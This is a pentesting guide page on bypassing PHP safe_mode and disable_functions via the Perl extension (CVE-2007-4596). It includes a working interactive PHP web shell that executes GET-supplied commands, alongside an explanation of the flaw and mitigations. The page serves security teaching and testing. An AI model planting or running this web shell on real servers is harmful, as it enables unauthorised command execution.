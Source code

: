 # PHP **Perl** Extension `safe_mode` / `disable_functions` Bypass

{{#include ../../../../banners/hacktricks-training.md}}

## Overview 📝
The **Perl** PECL extension exposes a complete Perl interpreter to PHP.  In legacy
installations (mainly PHP ≤ 5.3) where the historical **`safe_mode`** directive — and
often `disable_functions` — is enforced, the **handler implemented by the extension
is **not** subject to those restrictions**.  Invoking

```php
$perl = new perl();
$perl->eval('system("id")');
```

spawns an external process even when every classical command-execution function
(`system`, `exec`, `shell_exec`, …) is disabled.

* 2007: This behaviour was assigned **CVE-2007-4596** and remained exploitable
  for years because the Perl extension never honoured `safe_mode` rules .
* 2012: Starting with **PHP 5.4** the whole `safe_mode` feature was completely
  removed by the core team .  Nevertheless, many legacy
  systems or CTF challenges still expose PHP 5.x with this extension loaded, so
  the technique can be useful during real-world pentests.

## Requirements
1. Target runs **PHP ≤ 5.3** *with* `safe_mode = On` **or** a modern PHP build
   where **`disable_functions`** blacklists every command-execution primitive.
2. The **`perl`** extension is loaded (confirm with `extension_loaded('perl')`).
3. Attacker is able to upload/execute arbitrary PHP code (web-shell, file
   inclusion, LFI/RFI + `php://input`, etc.).

## Proof-of-Concept (interactive web-shell)
The following one-liner automatically falls back to `dir`/`ls` according to the
OS and prints command output inside a `<textarea>` for convenience.  It is the
original NetJackal PoC slightly reformatted:

```php
<?php
if (!extension_loaded('perl')) die('[!] perl extension is not loaded');

if (!isset($_GET))    $_GET =& $HTTP_GET_VARS;
if (empty($_GET['cmd']))
    $_GET['cmd'] = (strtoupper(substr(PHP_OS, 0, 3)) == 'WIN') ? 'dir' : 'ls';

$perl = new perl();
echo '<textarea rows="25" cols="75">';
$perl->eval("system('{$_GET['cmd']}')");
echo '</textarea>';
$_GET['cmd'] = htmlspecialchars($_GET['cmd']);

echo "<br><form>CMD: <input type=text name=cmd value='{$_GET['cmd']}' size=25></form>";
?>
```

> Tip ▶️  You can also trigger **non-interactive** payloads, e.g. reverse shells,
> file downloads, etc., because `system()` is executed by the embedded
> interpreter with the web-server’s privileges.

## Why does it work?
`disable_functions` only hooks the handlers stored inside the Zend
`function_table`.  The Perl extension registers **one single internal function
(`perl_eval`)** that, in turn, invokes the *external* Perl interpreter, so none
of the disabled PHP native functions are required.  The call chain never
queries the `function_table` again, and `safe_mode` checks are completely
skipped, producing **arbitrary command execution**.

## Mitigation
* **Remove the extension** (`extension=perl.so` / `php_perl.dll`) from `php.ini`.
* Upgrade to **PHP ≥ 5.4** (safe_mode removed) and rely on well-maintained
  sandboxing mechanisms such as **open_basedir**, **Suhosin**, containers or
  system mandatory access controls (AppArmor/SELinux).
* Isolate legacy applications that strictly require the Perl module inside a
  container without dangerous tools/binaries.

## Modern alternatives
The Perl trick is rarely available today.  If the module is missing, consult
`disable_functions`/`open_basedir` master page for newer primitives such as:

* **FFI** (`ffi.enable=1`, PHP ≥ 7.4) to directly call `libc` functions.
* **LD_PRELOAD** injection via `mail()`, `mb_send_mail()`, `Imagick`, etc.
* **PHP-FPM** or **FastCGI** escapes.

{{#ref}}
../README.md
{{#endref}}



## References
* National Vulnerability Database – CVE-2007-4596   
* PHP 5.4 ChangeLog – removal of safe_mode 
{{#include ../../../../banners/hacktricks-training.md}}
